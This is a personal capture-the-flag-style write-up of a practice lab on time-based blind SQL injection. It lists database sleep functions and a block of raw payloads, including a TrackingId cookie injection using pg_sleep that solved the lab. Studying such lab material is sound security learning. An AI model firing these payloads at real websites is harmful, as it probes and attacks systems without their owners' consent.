 # Blind SQL injection with time delays

*A clean, step‑by‑step write‑up using my original flow and raw payloads (no URL‑encoding), with tiny typo fixes and minimal notes.*

---

## 🎯 Goal
**Cause the website to load for 10 seconds.**

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** Cause the website to load for 10 seconds.
2. We already know we’ll use some kind of **SLEEP** function depending on the DB, so let’s find the DB version.
3. First we’ll find the **vulnerable parameter**.
4. Going over all the parameters I could find, I realized this might be a **blind SQLi**, which means we’ll have to blindly input injections like monkeys.
5. Function guesses: in **Oracle**: `DBMS_SESSION.SLEEP` (also common: `DBMS_LOCK.SLEEP`), in **PostgreSQL**: `pg_sleep`, in **SQL Server**: `WAITFOR DELAY`, in **MySQL**: `SLEEP`. We can make really extensive queries.
6. **Payloads I used:**  
   `'+AND+DBMS_SESSION.SLEEP(1)--`,  
   `'+AND+pg_sleep(1)--`,  
   `'+AND+sleep(1)--`,  
   `'+AND+WAITFOR DELAY+'0:0:1'--`,  
   `'+AND+111111111111.....--`
7. None of them worked. I thought maybe **AND** isn’t getting recognized at all (ignored by the sink)?
8. Then I tried **string concatenation** on all payloads:  
   `'+||+DBMS_SESSION.SLEEP(1)--` (and friends).
9. `'+||+pg_sleep(1)--` **worked in the cookie** →  
   `TrackingId=lRSj0fa9nvhrCat0'+||+pg_sleep(1)--`
10. Let’s increase to **10 seconds**:  
    `'+||+pg_sleep(10)--`
11. **Lab solved!** ✅

---

## 🧠 Why This Works (minimal notes)
- The vulnerable sink concatenates your cookie into a **string expression**. Adding `AND` didn’t affect the surrounding SQL (likely still inside a quoted string), so the boolean clause was ignored.  
- Using the string **concatenation operator** `||` with a function call forces the database to **evaluate the function** (side effect = **delay**), even if the final value isn’t used.  
- DB sleep primitives recap:  
  - **PostgreSQL**: `pg_sleep(seconds)`  
  - **Oracle**: `DBMS_LOCK.SLEEP(seconds)` (and sometimes `DBMS_SESSION.SLEEP(seconds)`)  
  - **SQL Server**: `WAITFOR DELAY '00:00:10'`  
  - **MySQL**: `SLEEP(10)`

> If concatenation fails on some engines, try `...'||(SELECT pg_sleep(10))||'` or `...'; SELECT pg_sleep(10);--` depending on how the input is embedded.

---

## ⌨️ Raw Payloads (copy/paste — exactly as used)
```text
'+AND+DBMS_SESSION.SLEEP(1)--
'+AND+pg_sleep(1)--
'+AND+sleep(1)--
'+AND+WAITFOR DELAY+'0:0:1'--
'+AND+111111111111.....--
'+||+DBMS_SESSION.SLEEP(1)--
'+||+pg_sleep(1)--
TrackingId=lRSj0fa9nvhrCat0'+||+pg_sleep(1)--
'+||+pg_sleep(10)--
```

---

## 🏁 Result
- Time‑based oracle established through cookie concatenation with `pg_sleep`. Delayed the response by **10 seconds**. **Solved. ✅**
